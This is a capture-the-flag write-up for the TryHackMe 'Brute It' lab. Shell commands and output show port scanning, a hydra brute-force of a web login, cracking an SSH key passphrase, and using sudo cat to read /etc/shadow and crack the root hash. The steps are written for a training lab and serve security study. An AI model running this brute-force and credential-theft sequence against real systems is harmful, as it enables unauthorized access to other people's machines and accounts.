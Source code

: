 #+TITLE: TryHackMe - Brute It writeup

[https://tryhackme.com/room/bruteit]

* Scanning & Enumerating services

	#+begin_src shell
		nmap -T4 -vv 10.10.209.151
		nmap -p 22,80 -vv -sC -sV 10.10.209.151

		PORT   STATE SERVICE REASON  VERSION
		22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey:
		|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDddsKhK0u67HTcGJWVdm5ukT2hHzo8pDwrqJmqffotf3+4uTESTdRdr2UgZhPD5ZAvVubybTc5HSVOA+CQ6eWzlmX1LDU3lsxiWEE1RF9uOVk3Kimdxp/DI8ILcJJdQlq9xywZvDZ5wwH+zxGB+mkq1i8OQuUR+0itCWembOAj1NvF4DIplYfNbbcw1qPvZgo0dA+WhPLMchn/S8T5JMFDEvV4TzhVVJM26wfBi4o0nslL9MhM74XGLvafSa5aG+CL+xrtp6oJY2wPdCSQIFd9MVVJzCYuEJ1k4oLMU1zDhANaSiScpEVpfJ4HqcdW+zFq2YAhD1a8CsAxXfMoWowd
		|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPHLT8mfzU6W6p9tclAb0wb1hYKmdoAKKAqjLG8JrBEUZdFSBnCj8VOeaEuT6anMLidmNO06RAokva3MnWGoys=
		|   256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEoIlLiatGPnlVn/NBlNWJziqMNrvbNTI5+JbhICdZ6/
		80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
		| http-methods:
		|_  Supported Methods: GET POST OPTIONS HEAD
		|_http-title: Apache2 Ubuntu Default Page: It works
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	#+end_src

	#+begin_src shell
		gobuster dir -u http://10.10.209.151 -w /usr/share/wordlists/dirb/common.txt -t 4

		/.htaccess            (Status: 403) [Size: 278]
		/.hta                 (Status: 403) [Size: 278]
		/.htpasswd            (Status: 403) [Size: 278]
		/admin                (Status: 301) [Size: 314] [--> http://10.10.209.151/admin/]
		/index.html           (Status: 200) [Size: 10918]
		/server-status        (Status: 403) [Size: 278]
	#+end_src

* Getting a shell & user flag

	http://10.10.209.151/admin/ presents a login panel, and the source code reveals that the username is *admin*, with a suble HTML comment: "<!-- Hey john, if you do not remember, the username is admin -->".

	#+begin_src shell
		# note /admin/ to avoid the 301 redirect interfering
		hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.209.151 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -t 4

		[80][http-post-form] host: 10.10.209.151   login: admin   password: xxxxxx
	#+end_src

	This gives us access to the web flag and a *RSA private key*! The password for the private key can be cracked using John The Ripper.

	#+begin_src shell
		wget http://10.10.209.151/admin/panel/id_rsa

		/usr/share/john/ssh2john.py id_rsa > hash
		john -format:SSH -wordlist:/usr/share/wordlists/rockyou.txt hash

		Using default input encoding: UTF-8
		Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
		Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
		Cost 2 (iteration count) is 1 for all loaded hashes
		Will run 4 OpenMP threads
		Note: This format may emit false positives, so it will keep trying even after
		finding a possible candidate.
		Press 'q' or Ctrl-C to abort, almost any other key for status
		xxxxxxxxxx       (id_rsa)
		Warning: Only 2 candidates left, minimum 4 needed for performance.
		1g 0:00:00:02 DONE (2021-06-03 21:31) 0.4484g/s 6431Kp/s 6431Kc/s 6431KC/sa6_123..*7¡Vamos!
		Session completed
	#+end_src

	The HTML page title and source code mentions "john" twice, let's test it as a username.

	#+begin_src shell
		chmod 600 id_rsa
		ssh john@10.10.209.151 -i id_rsa

		Enter passphrase for key 'id_rsa':
		Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

		Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
		john@bruteit:~$
		john@bruteit:~$ cat user.txt
	#+end_src

* Privilege Escalation & root flag

	#+begin_src shell
		sudo -l

		User john may run the following commands on bruteit:
				(root) NOPASSWD: /bin/cat
	#+end_src

	We can run cat as root, let's have a look at the /etc/shadow file and retrieve the root password's hash.

	#+begin_src shell
		sudo /bin/cat /etc/shadow | grep root > hash_root
	#+end_src

	Retrieve the hash on the attack box and crack it.

	#+begin_src shell
		scp -i id_rsa john@10.10.121.53:root_hash .
		john -format:sha512crypt -wordlist:/usr/share/wordlists/rockyou.txt root_hash

		Created directory: /home/kali/.john
		Using default input encoding: UTF-8
		Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
		Cost 1 (iteration count) is 5000 for all loaded hashes
		Will run 4 OpenMP threads
		Press 'q' or Ctrl-C to abort, almost any other key for status
		xxxxxxxx         (root)
		1g 0:00:00:00 DONE (2021-06-04 08:45) 7.692g/s 3938p/s 3938c/s 3938C/s 123456..letmein
		Use the "--show" option to display all of the cracked passwords reliably
		Session completed
	#+end_src

	We now have the root password and the means to read ''/root/root.txt'.

	#+begin_src shell
		john@bruteit:~$ su root
		Password:
		root@bruteit:/home/john# cat /root/root.txt
	#+end_src
